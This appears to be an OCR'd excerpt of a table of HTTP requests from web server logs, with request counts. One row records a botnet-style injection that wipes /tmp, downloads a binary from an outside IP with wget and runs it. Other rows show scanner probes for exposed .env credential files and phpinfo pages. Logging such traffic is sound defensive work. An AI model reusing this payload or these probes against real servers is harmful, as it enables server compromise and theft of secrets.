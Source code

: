 | 128 |                     2 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsselfrep;chmod+777+/tmp/jawsselfrep;sh+/tmp/jaws.selfrep HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 129 |                     2 | GET /mailer/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 130 |                     2 | GET /.vscode/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 131 |                     2 | GET /laravel/info.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 132 |                     2 | GET /lara/phpinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 133 |                     2 | GET /docker/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 134 |                     2 | GET /www/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |